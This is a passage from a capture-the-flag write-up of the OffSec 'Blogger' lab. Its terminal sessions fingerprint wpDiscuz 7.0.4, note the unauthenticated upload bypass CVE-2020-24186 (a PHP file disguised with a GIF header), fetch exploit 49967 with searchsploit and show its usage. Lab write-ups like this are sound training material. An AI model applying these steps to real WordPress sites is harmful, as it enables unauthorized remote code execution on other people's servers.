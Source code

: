 
- Got plugin's version : `7.0.4`

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ curl http://blogger.pg/assets/fonts/blog/wp-content/plugins/wpdiscuz/readme.txt | head
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0=== Comments - wpDiscuz ===
Contributors: gVectors Team
Tags: comment, comments, ajax comments, comment form, comment fields
Requires at least: 5.0
Tested up to: 5.4
Stable tag: 7.0.4
Requires PHP: 5.4 and higher
License: GPLv3
License URI: https://www.gnu.org/licenses/gpl-3.0.html
```

#### WordPress Plugin wpDiscuz 7.0.4 - File upload bypass (Unauthenticated)

- Google : `wpdiscuz 7.0.4 exploit` to find popular exploits

> POC - https://www.exploit-db.com/exploits/49967

> **Brief exploit info**
> It uploads a php file with `GIF689a;` magic header in content to bypass file check
{: .prompt-info }

```bash
┌──(bravosec㉿fsociety)-[~/Offsec/pg/play/Blogger]
└─$ cd exploit

┌──(bravosec㉿fsociety)-[~/…/pg/play/Blogger/exploit]
└─$ searchsploit -m 49967
  Exploit: WordPress Plugin wpDiscuz 7.0.4 - Remote Code Execution (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/49967
     Path: /usr/share/exploitdb/exploits/php/webapps/49967.py
    Codes: CVE-2020-24186
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable, with very long lines (864)
Copied to: /home/kali/Offsec/pg/play/Blogger/exploit/49967.py
```

- The exploit needs `wordpress base URL` and `a post's relative path`

```bash
┌──(bravosec㉿fsociety)-[~/…/pg/play/Blogger/exploit]
└─$ python 49967.py
[+] Specify an url target
[+] Example usage: exploit.py -u http://192.168.1.81/blog -p /wordpress/2021/06/blogpost
[+] Example help usage: exploit.py -h
```
